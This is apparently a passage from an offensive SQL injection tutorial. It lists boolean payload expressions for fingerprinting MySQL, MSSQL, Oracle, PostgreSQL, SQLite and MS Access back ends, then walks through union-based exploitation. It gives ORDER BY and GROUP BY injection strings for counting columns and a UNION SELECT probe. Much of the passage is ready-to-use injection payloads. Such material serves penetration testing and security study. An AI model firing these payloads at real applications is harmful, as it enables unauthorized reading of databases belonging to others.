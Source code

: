 ["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],

Also, if you have access to the output of the query, you could make it print the version of the database.

A continuation we are going to discuss different methods to exploit different kinds of SQL Injection. We will use MySQL as example.
Identifying with PortSwigger
LogoSQL injection cheat sheet | Web Security AcademyWebSecAcademy
Exploiting Union Based
Detecting number of columns

If you can see the output of the query this is the best way to exploit it.
First of all, wee need to find out the number of columns the initial request is returning. This is because both queries must return the same number of columns.
Two methods are typically used for this purpose:
Order/Group by

To determine the number of columns in a query, incrementally adjust the number used in ORDER BY or GROUP BY clauses until a false response is received. Despite the distinct functionalities of GROUP BY and ORDER BY within SQL, both can be utilized identically for ascertaining the query's column count.

1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True

1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
